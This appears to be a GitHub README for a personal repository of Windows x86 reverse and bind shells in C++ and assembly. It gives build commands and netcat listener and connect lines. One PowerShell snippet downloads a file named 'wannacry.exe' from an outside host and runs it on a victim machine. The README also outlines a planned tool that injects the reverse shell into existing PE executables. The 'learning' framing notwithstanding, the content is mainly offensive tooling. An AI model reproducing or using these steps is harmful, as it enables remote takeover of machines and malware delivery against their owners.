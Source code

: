 # Reverse_shell learning

## :one: Reverse Shell x86 :fr:

Warning, this reverse shell is not portable, just for show example how does a reverse shell in x86 in assembly code, this method is really old

### Tree

* reverse_bind_cpp 
* reverse_bin_cpp_v2
  - try to catch ipv4 address of ethernet card
* Bind reverse written in object
* Reverse cpp ( reverse shell cpp )
* Reverse cpp written in object
* ASM Bind reverse shell
  - not terminated
* ASM v1 ( reverse shell asm )
  - Replace all address offsets of called functions
* ASM v2 ( reverse shell asm )
  - To do remote all TEB/PEB, remove all bytes null
  - Ligne 78 v2 : LoadLibraryA replace it by your own offset
  - Ligne 79 v2 : GetProcAddress replace it by your own offset
  - Ligne 193 v2: SOKADDR_IN set you own port and IP address

### Soon

\[\*\] coding a lil program :
  * Open biary file exe
  * read PE
  * find EP
  * IAT import ws2_32.dll
  * Inject Reverse_shell
  * close binary file Exe
  
### Architecture

Win32 plateform

- XP 
- Win 7
- Win 10 - Windows Defender Detects it's bad for himself

### Compilation 

```
$nasm -f win32 reverse_shell.s -o reverse_shell.o
$ld -m i386 reverse_shell.o -o reverse_shell32.exe
```
### Show Hex

```
$nasm -f bin reverse_shell.s -o reverse_shell_bin.o
$cat reverse_shell_bin | hexdump -C
```
## :two: Exploit

### Reverse Tcp

```
$netcat -v -l -p 4444
```

### Reverse Bind Tcp

```
$netcat -v victim_ip 4444
```
### Win <= 7 Bind reverse shell \[ powershell.exe \]

<img src="https://zupimages.net/up/19/01/wq32.png">

```
>dir env:\
> $url=http://192.168.0.2/wannacry.exe
> wget $url -outfile [ PATH ]
> cmd
> start File
```

### Reverse Tcp With CPP \[ cmd.exe \] 

Write on an ide really basic devcpp on windows

- Inlude at your projet : MinGw-x86-64\libws2_32.so

<img src="https://zupimages.net/up/18/52/3s63.png">
<img src="https://zupimages.net/up/18/52/y6mk.png">

### Win 10 pro reverse cpp \[ cmd.exe \]

<img src="https://zupimages.net/up/18/52/ztqp.png">
<img src="https://zupimages.net/up/18/52/dt6r.png">
<img src="https://zupimages.net/up/18/52/a96f.png">


